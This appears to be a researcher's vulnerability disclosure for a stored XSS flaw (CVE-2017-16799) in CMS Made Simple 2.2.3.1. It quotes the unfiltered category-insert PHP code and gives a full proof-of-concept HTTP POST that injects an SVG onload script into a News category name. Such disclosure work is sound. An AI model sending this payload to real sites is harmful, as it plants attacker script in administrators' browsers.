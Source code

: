 # Use CVE-2017-16799
# CMSMS 2.2.3.1 Multiple Vulnerabilities

One day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.

## Stored XSS

In Setting-New module,you can add category,there is no XSS filtering, resulting in storage-type XSS generation. 
file modules/New/action.addcategory.php,line10~line29.  
    ```` 
    
    $name = trim($params['name']);
    //if( $parent == 0 ) $parent = -1;
    $name = trim($params['name']);
    if ($name != '') {
    $query = 'SELECT news_category_id FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ? AND news_category_name = ?';
    $tmp = $db->GetOne($query,array($parent,$name));
    if( $tmp ) {
    echo $this->ShowErrors($this->Lang('error_duplicatename'));
    }
    else {
    $query = 'SELECT max(item_order) FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ?';
    $item_order = (int)$db->GetOne($query,array($parent));
    $item_order++;
    $catid = $db->GenID(CMS_DB_PREFIX."module_news_categories_seq");
    $query = 'INSERT INTO '.CMS_DB_PREFIX.'module_news_categories (news_category_id, news_category_name, parent_id, item_order, create_date, modified_date) VALUES (?,?,?,?,NOW(),NOW())';
    $parms = array($catid,$name,$parent,$item_order);
    $db->Execute($query, $parms);
    ````  
The parameter name insert into the database without filtering。

### POC  
    ````
    POST /admin/moduleinterface.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Referer: http://127.0.0.1/
    Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
    mact=News%2Cm1_%2Caddcategory%2C0&_sk_=98cf4d97037a4df557b&m1_name=%3Csvg%2F+onload%3Dalert%281%29%3E&m1_parent=-1&m1_submit=%E6%8F%90%E4%BA%A4
    
    ````
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/94376829.jpg)
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/48134010.jpg)
    
  

    

